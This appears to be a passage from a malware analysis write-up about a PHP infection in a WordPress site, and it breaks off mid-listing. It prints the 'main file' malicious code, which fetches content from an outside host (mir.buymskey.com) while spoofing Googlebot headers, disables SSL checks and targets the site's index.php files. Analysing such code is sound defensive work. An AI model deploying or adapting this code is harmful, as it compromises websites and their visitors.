 
This is the first if-block of the malware here and prior to this if-block it seems there are two functions being called here and two variables being declared with the boolean value true and a file created with the name write_work_complete.log. Notice the comment left in by the developer as well, it looks like there might be a GUI or some sort of "editor" that this code is possibly feeding data to.

Within that if-block there is a check to see if the write_work_complete file already exists and if it does the file_get_contents function is executed. 

This pretty much all leads to this main file which was responsible for the creation of these smaller files seen earlier:

```js

// Main file that generated the smaller files with random files names
echo "write page file exist!!!";
if ((array)$_SERVER["DOMAIN_PATH"]){
	$root=$_SERVER["DOMAIN_PATH"];
} else {
	$root=$_SERVER["DOCUMENT_ROOT"];
}
$index_file="D:\phpStudy\WWW\wordpress\index.php";
$static_index=False;
$domain=$_SERVER["SERVER_NAME"];
$mix_strs='abcdefghijklmnopqrstuvwxyz';
$root_file=$root.'/index.php';
function get_url_con($con_s){
    if(function_exists('curl_init')){
        $s = curl_init();
        curl_setopt($s,CURLOPT_URL,$con_s);
        curl_setopt($s,CURLOPT_RETURNTRANSFER,1);
        curl_setopt($s,CURLOPT_USERAGENT,'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)');
        curl_setopt($s,CURLOPT_REFERER,"http://www.google.com");
        curl_setopt($s, CURLOPT_HTTPHEADER, array('X-FORWARDED-FOR:66.249.72.240', 'CLIENT-IP:66.249.72.240'));
        return curl_exec($s);
    }else{
        return @file_get_contents($con_s);
    }
}
$options = array(
  'http'=>array(
    'metod'=>"GET",
    'timeout'=>60,
    'header'=>"Accept-language: en\r\n" .
              "Cookie: foo=bar\r\n" .  // check function.stream-context-create on php.net
              "User-Agent: Mozilla/5.0 (iPad; U; CPU OS 3_2 like Mac OS X; en-us) AppleWebKit/531.21.10 (KHTML, like Gecko) Version/4.0.4 Mobile/7B334b Safari/531.21.10" // i.e. An iPad 
  ),
  "ssl"=>array(
              "verify_peer"=>false,
              "verify_peer_name"=>false,
  )
);
$context = stream_context_create($options);
$wrote_content=get_url_con('http://mir.buymskey.com/wrote/wrote');
$wrote_content_split=explode('$searchsite="',$wrote_content);
$sub_num=strpos($wrote_content,'";
$confirm');
$wrote_end=substr($wrote_content,$sub_num);
$before_index_content='';
$index_names=array($index_file,$root_file);
if ((isset($_GET['searchsite']))&&(isset($_GET['searchtxt']))&&(isset($_GET['texturl']))&&(isset($_GET['page']))&&(isset($_GET['state']))){
```